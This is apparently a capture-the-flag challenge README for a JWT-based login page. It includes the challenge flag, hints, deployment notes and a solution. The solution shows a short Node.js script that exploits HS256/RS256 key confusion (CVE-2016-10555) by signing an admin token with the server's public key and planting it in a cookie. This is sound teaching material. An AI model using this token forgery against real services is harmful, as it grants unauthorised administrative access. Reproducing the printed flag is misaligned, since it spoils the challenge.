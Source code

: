# login 4
Very™ Enterprise® Login™ Page™ Ultimate℠. Now® With℠ [RFC 7519](https://tools.ietf.org/html/rfc7519).

Once™ Again™, We™ Have™ Provided™ A™ Premium™ Guest™ Login™ Ultimate℠ For™ You®!℠ The℠ Username™ Is™ `Guest™`, And® The® Password™ Is™ Also® `Guest℠`. As® You® Can® See™, This℠ Is℠ Very™ Enterprise® Secure™ Ultimate℠!

## Flag
```
camp{CVE-2016-10555_fw4hiI7}
```

## Points
400

## Category
Webex

## Hints
* What's [RFC 7519](https://tools.ietf.org/html/rfc7519)?
* What are some common vulnerabilities with JWT implementations?
* You need to some sort of key to make tokens...
* Consider using a programming library, such as [node-jsonwebtoken](https://www.npmjs.com/package/jsonwebtoken), to help you.

## Downloads
* `server/enterpriseloginsigning.key.pub` (as-is, without a trailing newline)
* `server/index.js`

## Deployment
Deploy the contents of `server/` with an up-to-date version of Node.js. Pass in the following environment variables:
* `LOGIN4_FLAG` - the flag
* `LOGIN4_USERNAME` - guest username
* `LOGIN4_PASSWORD` - guest password
* `LOGIN4_PORT` - desired port to listen to

## Solution
A typical HS256/RS256 JWT confusion problem, in which a known asymmetric key can be used as a symmetric secret.

1. `npm install jsonwebtoken`
2. Run with Node.js:
    ```javascript
    const { sign } = require("jsonwebtoken");
    const { readFileSync } = require("fs");

    console.log(sign({
        isAdmin: true
    }, readFileSync("enterpriseloginsigning.key.pub", "utf8"), {expiresIn: 3600}));
    ```
3. Paste output into the `login4_token` cookie.
4. Browse to `/flag` and get flag.

## Author
Anthony Li